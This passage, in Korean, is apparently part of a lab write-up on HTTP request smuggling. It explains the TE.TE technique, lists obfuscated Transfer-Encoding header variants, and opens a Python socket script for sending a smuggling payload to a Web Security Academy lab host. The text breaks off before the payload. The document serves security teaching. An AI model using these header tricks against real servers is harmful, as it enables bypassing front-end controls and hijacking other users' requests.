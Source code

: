 **Response :**

``` http
HTTP/1.1 403 Forbidden
Content-Type: application/json; charset=utf-8
Connection: close
Keep-Alive: timeout=0
Content-Length: 27

"Unrecognized method GPOST"
```

#### TE.TE behavior: obfuscating the TE header

이 경우는 Front-end와 Back-end 모두 `Transfer-Encoding` 헤더를 지원하지만, 서버 하나는 헤더의 조작을 통해 헤더를 인식하지 못하게 할 수 있는 경우 입니다.

`Transfer-Encoding` 헤더를 조작하는 방법은 끝이 없습니다. 예시는 다음과 같습니다.

```
Transfer-Encoding: xchunked

Transfer-Encoding : xchunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding: [tab]chunked
[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding: 
chunked
```

리얼 월드에서는 프로토콜을 사용할 때 명세에서 시키는대로 정확히 사용하지 않습니다. 때문에 약간씩 다른식으로 동작하는 것은 자주 있는 일입니다. **TE.TE 취약점**을 발견하기 위해서는, `Transfer-Encoding` 헤더를 변형시켜가면서 어떤 경우에 Front-end와 Back-end가 다르게 동작하는지 알아내야 합니다. 

`Transfer-Encoding` 헤더를 처리하지 못하는 쪽이 Front-end인지, Back-end 쪽인지에 따라 공격 방식이 각각 **CL.TE** , **TE.CL**와 비슷해집니다.

예제를 풀어봅시다.

**LAB: HTTP request smuggling, obfuscating the TE header**

**LAB Description :**

이 문제는 Front-end와 Back-end 서버로 이루어져 있습니다. Front-end 서버는 `GET`, `POST` 메소드 외에 다른 메소드를 이용한 요청은 거부합니다.

이 Lab을 풀려면, HTTP request smuggling 공격을 이용해서 다음 요청이 `GPOST` 메소드를 사용하게 해야 합니다.

**PAYLOAD :**

``` python
import socket
import requests
import ssl

HOST = "ac3e1f471eb92269807ae90a007a0066.web-security-academy.net"
PORT = 443

def send_payload(data):
    context=ssl.create_default_context()
    sock=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    ssl_sock=context.wrap_socket(sock,server_hostname=HOST)
    ssl_sock.connect((HOST,PORT))
    ssl_sock.send(data)
    data = ssl_sock.recv(1024)
    ssl_sock.close()
```